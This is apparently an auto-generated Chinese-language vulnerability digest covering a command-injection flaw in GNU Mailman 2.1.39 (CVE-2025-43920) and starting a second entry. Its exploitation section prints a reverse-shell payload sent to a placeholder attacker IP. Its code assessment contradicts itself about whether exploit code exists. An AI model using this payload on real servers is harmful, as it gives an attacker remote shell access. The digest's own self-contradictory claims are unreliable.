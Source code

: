 #### 📦 相关仓库

- [CVE-2025-43920](https://github.com/0NYX-MY7H/CVE-2025-43920)

#### 💡 分析概述

GNU Mailman 2.1.39版本在处理电子邮件主题行时存在远程命令注入漏洞，攻击者可通过构造特定的电子邮件主题行在服务器上执行任意操作系统命令。

#### 🔍 关键发现

| 序号 | 发现内容 |
|------|----------|
| 1 | 远程命令注入漏洞 |
| 2 | 影响GNU Mailman 2.1.39版本 |
| 3 | 通过电子邮件主题行注入shell元字符利用 |

#### 🛠️ 技术细节

> 漏洞原理：由于在处理电子邮件主题行时未进行充分的输入清理，导致可以注入shell命令。

> 利用方法：构造包含恶意shell命令的电子邮件主题行，如`;bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1`。

> 修复方案：升级到GNU Mailman 3.x版本，实施严格的输入验证和清理。


#### 🎯 受影响组件

```
• GNU Mailman 2.1.39
```

#### 💻 代码分析

**分析 1**:
> POC/EXP代码评估：提供了具体的利用代码示例，验证了漏洞的可行性。

**分析 2**:
> 测试用例分析：虽然没有详细的测试用例，但POC代码足以证明漏洞的存在和利用方式。

**分析 3**:
> 代码质量评价：README.md提供了详细的漏洞描述和修复建议，但缺乏实际的漏洞利用代码或测试脚本。


#### ⚡ 价值评估

<details><summary>展开查看详细评估</summary></details>

---

### CVE-2025-43921 - GNU Mailman 2.1.39存在未授权创建邮件列表漏洞

#### 📌 漏洞信息

| 属性 | 详情 |
|------|------|
| CVE编号 | CVE-2025-43921 |
| 风险等级 | `HIGH` |
| 利用状态 | `POC可用` |
| 发布时间 | 2025-04-19 00:00:00 |
| 最后更新 | 2025-04-19 23:39:36 |
